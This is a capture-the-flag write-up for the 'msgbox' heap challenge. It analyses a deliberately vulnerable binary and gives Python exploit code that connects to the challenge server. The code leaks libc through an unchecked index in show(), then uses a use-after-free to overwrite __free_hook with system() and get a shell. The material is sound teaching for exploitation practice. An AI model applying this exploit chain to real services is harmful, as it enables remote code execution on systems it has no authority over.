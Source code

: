 # msgbox

More secure than "Whatsapp"  😉

`nc 157.230.33.195 2222 `

Flag format : Trollcat{}

**Author : codacker**

**Files**: `msgbox.zip` (`vuln`, `vuln.c`, `libc.so.6`)

```sh
$ checksec msgbox.o # renamed vuln
[*] 'msgbox.o'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$ ../libc-database/identify msgbox.so.6 # renamed libc.so.6
libc6_2.27-3ubuntu1.4_amd64
```

I use [pwnscripts](https://github.com/152334H/pwnscripts) to finish libc challenges quickly.

## Code parsing

`strings[]` is an array of _strings_ (`char*`) that starts off empty. `sizes[]` is an array keeping track of the lengths of each string. Both are `0x10` large.

### `add()`

* user-provided index; assert on boundaries
* `strings[i] = malloc(<user provided size>)`
* `read(size-1)` to take in input
* `size[i] = size`

### `show()`

* takes user-provided index, **no bounds checking**
* uses `%s` with `printf()`, so possible overprinting due to lack of nul-terminator

### `delete()`

* user-provided index; assert on boundaries
* `free(strings[idx])`. No zeroing out of `strings[idx]`/`sizes[idx]`; **clear UAF / double-free**

### `edit()`

* user-provided index; assert on boundaries
* `read(0, strings[idx], sizes[idx])`. Note that this is 1 larger than what `add()` originally does.

I also prepared a python framework to deal with this challenge:

```python
from pwnscripts import *
context.binary = 'msgbox.o'
context.libc_database = '../libc-database'
context.libc = 'msgbox.so.6'
r = remote('157.230.33.195', 2222)

def add(size: int, idx: int, msg: bytes):
    r.sendlineafter('> ', '1')
    r.sendlineafter('size: ', str(size))
    r.sendlineafter('idx: ', str(idx))
    r.sendafter('message: ', msg)
def show(idx: int):
    r.sendlineafter('> ', '2')
    r.sendlineafter('idx: ', str(idx))
    return r.recvline()
def delete(idx: int):
    r.sendlineafter('> ', '3')
    r.sendlineafter('idx: ', str(idx))
def edit(idx: int, msg: bytes):
    r.sendlineafter('> ', '4')
    r.sendlineafter('idx: ', str(idx))
    r.sendafter('message: ', msg)
```

With that out of the way, what're we going to do?

## how2heap

This challenge doesn't have a single fixed solution; there are _many_ heap-based vulnerabilities present in the source code, and I'll only be using two to get through:

### Arbitrary Relative Dereference

`show()` is the only function that happens to lack bounds checking (i.e. asserting `0<=idx<0x10`), and we can abuse it for an arbitrary read.

Because `show(idx)` will essentially commit `printf("%s", strings[idx])`, we can read any pointer located around the `0x400000-0x600000+` range (so long as it is _actually_ a pointer). Since leaking libc is usually important for a heap challenge, I decided to try finding a _pointer_^1^ to a libc location in the binary.

A quick scan in gdb-gef led to results:

`0x0000000000400580│+0x0580: 0x0000000000601ff0  →  0x00007fffff0801f0  →  <__libc_start_main+0> push r14`

This corresponds with this section in IDA:

`LOAD:0000000000400580                 Elf64_Rela <601FF0h, 800000006h, 0> ; R_X86_64_GLOB_DAT __libc_start_main`

This means that `strings[(0x400580-(int)strings)/8]` will be a pointer to libc, and we'll get the libc base with a simple one-liner:

```python
context.libc.symbols['__libc_start_main'] = unpack_bytes(show((0x400580-context.binary.symbols['strings'])//8).split(b'] ')[-1], 6)
```

With libc leaked, all we need to do is to overwrite `__free_hook` to gain arbitrary code execution.

### Use-After-Free

In `delete()`, `strings[idx]` is `free()`d without setting `strings[idx] = 0`. This is dangerous for multiple reasons, but one of the easier things we can do here is to run `edit(idx, writeable_location)` _after_ `delete(idx)`:

```python
SZ = 0x18
add(SZ, 0, b'garbage')
delete(0)
edit(0, pack(context.libc.symbols['__free_hook']))
```

 After `delete(0)`, the tcache free list will contain a single saved pointer. `edit()`ing the deleted pointer will add an extra pointer to the free list; I'm editing the string to contain `__free_hook` so that the _next_ allocation will point towards there:

```python
add(SZ, 0, b'/bin/sh;') # this is the original add()'d pointer
add(SZ, 1, pack(context.libc.symbols['system'])) # this allocation is given __free_hook; I overwrite it with system()
delete(0) # __free_hook causes system("/bin/sh")
```

That's it.

## Flag

`Trollcat{h34p_h34p_g0_4w4y}`

1. Note the level of dereferencing here. The GOT table is a list of functions; using `show()` to display pointers on the GOT table would only result in "leaking" assembly code.
